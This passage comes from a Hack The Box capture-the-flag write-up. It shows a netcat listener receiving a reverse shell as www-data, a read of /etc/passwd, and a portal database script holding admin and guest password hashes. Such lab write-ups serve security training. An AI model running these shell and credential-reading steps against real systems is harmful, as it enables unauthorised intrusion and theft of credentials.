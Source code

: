 And the shell is served!

    ┌──(in7rud3r㉿kali-muletto)-[~/Dropbox/hackthebox]
    └─$ nc -lvp 4444         
    listening on [any] 4444 ...
    10.10.11.211: inverse host lookup failed: Unknown host
    connect to [10.10.14.84] from (UNKNOWN) [10.10.11.211] 44074
    whoami
    www-data
    

It seems I don't have permission to read the _/home_ folder; let's look for any clues left in the surroundings before running a session with **linpeas**. Let's check the list of the users in the meantime.

    cat /etc/passwd
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    _apt:x:100:65534::/nonexistent:/usr/sbin/nologin
    

What? There doesn't seem to be any user who can log in! there is something strange about this BOX!

I found a **SQL script** that creates the _database_ for the portal and looking inside...

    [...]
    CREATE TABLE user_auth (
      `id` mediumint(8) unsigned NOT NULL auto_increment,
      `username` varchar(50) NOT NULL default '0',
      `password` varchar(256) NOT NULL default '',
      `realm` mediumint(8) NOT NULL default '0',
      `full_name` varchar(100) default '0',
      `email_address` varchar(128) NULL,
    [...]
    INSERT INTO user_auth VALUES (1,'admin','21232f297a57a5a743894a0e4a801fc3',0,'Administrator','','on','on','on','on','on','on',2,1,1,1,1,'on',-1,-1,'-1','',0,0,0);
    INSERT INTO user_auth VALUES (3,'guest','43e9a4ab75570f5b',0,'Guest Account','','on','on','on','on','on',3,1,1,1,1,1,'',-1,-1,'-1','',0,0,0);
    [...]
    